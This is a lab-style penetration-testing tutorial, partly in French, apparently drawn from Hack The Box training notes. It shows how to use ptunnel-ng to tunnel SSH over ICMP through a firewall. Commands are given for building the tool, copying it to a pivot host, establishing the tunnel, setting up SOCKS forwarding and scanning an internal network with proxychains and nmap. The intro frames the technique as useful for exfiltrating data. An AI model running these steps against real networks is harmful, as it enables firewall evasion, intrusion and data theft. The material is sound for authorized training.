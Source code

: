 # ICMP Tunneling with SOCKS

***

L’**ICMP tunneling** encapsule votre trafic dans des **paquets ICMP** contenant des **requêtes et des réponses d’écho**.

L’ICMP tunneling fonctionne **uniquement** lorsque les **réponses aux pings sont autorisées** dans un réseau protégé par un pare-feu.

Lorsqu’un **hôte à l’intérieur d’un réseau** protégé par un pare-feu **est autorisé à pinguer** un serveur externe, il peut **encapsuler son trafic dans la requête de ping** et l’envoyer à un serveur externe.

Le serveur externe peut **valider ce trafic et envoyer une réponse appropriée**, ce qui est extrêmement utile pour **exfiltrer des données** et **créer des tunnels de pivotement** vers un serveur externe.

Nous allons utiliser l’outil **ptunnel-ng** pour **créer un tunnel entre notre serveur Ubuntu et notre machine d’attaque**.

Une fois le tunnel créé, nous pourrons **proxifier notre trafic à travers le client ptunnel-ng**.

Nous allons commencer par démarrer le **serveur ptunnel-ng** sur l’**hôte pivot** cible.

Commençons par installer et configurer **ptunnel-ng**

***

### <mark style="color:red;">Setting Up & Using ptunnel-ng</mark>

If ptunnel-ng is not on our attack host, we can clone the project using git.

**Cloning Ptunnel-ng**

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```

Once the ptunnel-ng repo is cloned to our attack host, we can run the `autogen.sh` script located at the root of the ptunnel-ng directory.

**Building Ptunnel-ng with Autogen.sh**

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./autogen.sh 
```

After running autogen.sh, ptunnel-ng can be used from the client and server-side. We will now need to transfer the repo from our attack host to the target host. As in previous sections, we can use SCP to transfer the files. If we want to transfer the entire repo and the files contained inside, we will need to use the `-r` option with SCP.

**Alternative approach of building a static binary**

```shell-session
mrroboteLiot@htb[/htb]$ sudo apt install automake autoconf -y
mrroboteLiot@htb[/htb]$ cd ptunnel-ng/
mrroboteLiot@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
mrroboteLiot@htb[/htb]$ ./autogen.sh
```

**Transferring Ptunnel-ng to the Pivot Host**

```shell-session
mrroboteLiot@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

With ptunnel-ng on the target host, we can start the server-side of the ICMP tunnel using the command directly below.

**Starting the ptunnel-ng Server on the Target Host**

```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
```

The IP address following `-r` should be the IP we want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.

**Connecting to ptunnel-ng Server from Attack Host**

```shell-session
mrroboteLiot@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

**Tunneling an SSH connection through an ICMP Tunnel**

```shell-session
mrroboteLiot@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
```

If configured correctly, we will be able to enter credentials and have an SSH session all through the ICMP tunnel.

On the client & server side of the connection, we will notice ptunnel-ng gives us session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way we can confirm that our traffic is passing from client to server utilizing ICMP.

**Viewing Tunnel Traffic Statistics**

```shell-session
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

We may also use this tunnel and SSH to perform dynamic port forwarding to allow us to use proxychains in various ways.

**Enabling Dynamic Port Forwarding over SSH**

```shell-session
mrroboteLiot@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.

**Proxychaining through the ICMP Tunnel**

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
```
{% endcode %}

***

### <mark style="color:red;">Network Traffic Analysis Considerations</mark>

It is important that we confirm the tools we are using are performing as advertised and that we have set up & are operating them properly. In the case of tunneling traffic through different protocols taught in this section with ICMP tunneling, we can benefit from analyzing the traffic we generate with a packet analyzer like `Wireshark`. Take a close look at the short clip below.

![](https://academy.hackthebox.com/storage/modules/158/analyzingTheTraffic.gif)

In the first part of this clip, a connection is established over SSH without using ICMP tunneling. We may notice that `TCP` & `SSHv2` traffic is captured.

The command used in the clip: `ssh ubuntu@10.129.202.64`

In the second part of this clip, a connection is established over SSH using ICMP tunneling. Notice the type of traffic that is captured when this is performed.

Command used in clip: `ssh -p2222 -lubuntu 127.0.0.1`

***
